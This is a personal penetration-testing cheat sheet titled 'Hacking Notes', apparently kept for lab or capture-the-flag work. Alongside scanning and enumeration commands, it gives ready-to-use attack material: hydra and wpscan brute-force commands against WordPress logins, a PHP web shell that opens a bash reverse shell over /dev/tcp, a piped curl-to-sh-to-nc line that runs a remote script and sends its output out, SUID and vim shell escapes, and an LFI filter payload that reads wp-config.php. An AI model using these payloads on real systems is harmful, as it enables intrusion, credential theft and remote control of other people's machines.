 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |
| smbclient | smbclient -L \\\\[IP]\\[Directory] |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Analysis with external files: curl [IP]:8000/linpeas.sh | sh | nc [IP] [PORT]
Start HTTP Server: python3 -m http.server [PORT]
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```
Binaries
```
/usr/bin/dash -p
Path: /usr/bin/find. Exp: find . -exec /bin/sh -p \; -quit
```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Escape  restricted environments (vim)
```
:!/bin/sh
:set shell=/bin/sh // :set shell=/bin/bash
:shell
```
## Port Scanning

One-liner
```
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
```

## Dynamic tunnel
Over Socks 5: ssh -D PORT [USER]@[IP]
![image](https://github.com/user-attachments/assets/bb6c4651-ac44-4144-9765-845565b9a826)

## Force the server to read and encode the file before processed
Example (with LFI, wp file) 
http://[IP]/lx.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

## Check commands in a restricted shell
"TAB TAB"

# FIles
vim ~/.bash_logout
vim ~/.config/


